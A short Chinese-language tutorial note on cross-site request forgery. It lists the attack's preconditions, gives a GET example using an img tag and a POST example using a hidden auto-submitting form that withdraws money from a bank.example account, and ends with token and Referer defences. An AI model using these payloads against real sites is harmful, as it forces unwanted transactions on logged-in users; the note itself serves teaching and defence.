 ![image-20230601194839112](../image/image-20230601194839112.png)

##### 满足的条件：

·1.登录受信任网站A，并在本地生成Cookie。（如果用户没有登录网站A，那么网站B在诱导的时候，请求网站A的api接口时，会提示你登录）

2.在不登出A的情况下，访问危险网站B（其实是利用了网站A的漏洞）。

##### 案例：

1.GET 类型的CSRF

```html
　<img src="http:/10.10.10.10:8088/hi" />
```

2.POST类型的CSRF

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://www.bank.example/withdraw' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='account' value='test1'>　　　　
  <input type='hidden' name='amount' value='888'>　　　
  <input type='hidden' name='for' value='sam'>　 　　
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```



解决方案：

1.每次请求带token校验

2.验证 HTTP Referer 字段；
